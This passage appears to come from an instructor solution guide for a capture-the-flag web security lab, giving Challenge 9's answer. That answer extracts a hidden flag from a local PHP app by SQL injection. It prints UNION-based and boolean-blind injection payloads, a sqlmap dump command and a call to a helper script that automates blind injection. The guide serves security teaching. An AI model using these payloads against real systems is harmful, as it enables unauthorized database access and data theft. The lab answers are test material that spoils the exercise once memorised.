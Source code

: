 **Common Mistakes:**
- Forget the `--` comment marker
- Put space after `--` (need `-- ` with space)
- Try complex payloads when simple works
- Don't check admin_panel table after bypass

**Teaching Moment:**
- Why prepared statements are essential
- How SQLi breaks authentication logic
- Reading and understanding vulnerable code

---

#### Challenge 9: Blind SQL Injection & Data Exfiltration (300 pts)

**Objective:** Extract `hidden_flag` from products table using blind SQLi

**Solution:**

**Method 1: UNION-based (easier)**
```
http://localhost:8080/index.php?page=product_detail&id=1 UNION SELECT 1,2,hidden_flag,4,5,6 FROM products--
```

**Method 2: Boolean-based blind**
```
# Test true condition
id=1 AND 1=1

# Test false condition
id=1 AND 1=2

# Extract first character
id=1 AND SUBSTRING((SELECT hidden_flag FROM products LIMIT 1),1,1)='F'
```

**Method 3: sqlmap (automated)**
```bash
sqlmap -u "http://localhost:8080/index.php?page=product_detail&id=1" \
       --dump -T products -C hidden_flag
```

**Method 4: AI-optimized script**
```bash
cd ai-helpers
python blind_sqli_optimizer.py \
  --target http://localhost:8080/index.php?page=product_detail \
  --param id
```

**Flag:** From `flags.json` challenge ID 9

**Common Mistakes:**
- Don't understand UNION SELECT column count
- Forget `--` at end of payload
- Give up on manual extraction (use AI tool!)
- Wrong column numbers in UNION
